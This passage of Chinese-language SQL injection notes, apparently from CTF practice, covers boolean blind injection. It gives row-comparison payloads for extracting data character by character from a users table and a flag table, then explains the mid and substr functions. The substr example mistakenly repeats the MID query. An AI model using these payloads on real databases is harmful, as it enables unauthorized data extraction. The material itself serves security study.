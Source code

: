 ```mysql

mysql> select (select 1,'Dumb','D') > (select * from users limit 1);
+-------------------------------------------------------+
| (select 1,'Dumb','D') > (select * from users limit 1) |
+-------------------------------------------------------+
|                                                     0 |
+-------------------------------------------------------+
1 row in set (0.00 sec)

mysql> select (select 1,'Dumb','F') > (select * from users limit 1);
+-------------------------------------------------------+
| (select 1,'Dumb','F') > (select * from users limit 1) |
+-------------------------------------------------------+
|                                                     1 |
+-------------------------------------------------------+
1 row in set (0.00 sec)
#通过比较可以将三列的数据全部盲注出来
```

```mysql
((SELECT 1,concat('{result+chr(mid)}', cast("0" as JSON)))<(SELECT * FROM `f1ag_1s_h3r3_hhhhh`))
```

要求后面select的结果必须是一行，可以通过limit限制一行。mysql中对char型大小写是不敏感的，盲注的时候要么可以使用`hex`或者`binary`。

## SQL 盲注

何为盲注？盲注就是在sql 注入过程中，sql 语句执行的选择后，选择的数据不能回显到前端页面。此时，我们需要利用一些方法进行判断或者尝试，这个过程称之为盲注。

### 基于布尔SQL 盲注

#### Sql注入截取字符串常用函数

在sql注入中，往往会用到截取字符串的问题，例如不回显的情况下进行的注入，也成为盲注，这种情况下往往需要一个一个字符的去猜解，过程中需要用到截取字符串。

**mid()**

> mid(s,n,len);
>
> 从字符串 s 的 n 位置截取长度为 len 的子字符串

```mysql
SELECT MID("RUNOOB", 2, 3) AS ExtractString; 
-- UNO
```

**substr()/substring()**

> substr(s, start, length);
>
> substring(s, start, length)
>
> 从字符串 s 的 start 位置截取长度为 length 的子字符串

```mysql
SELECT MID("RUNOOB", 2, 3) AS ExtractString; 
-- UNO                                
```
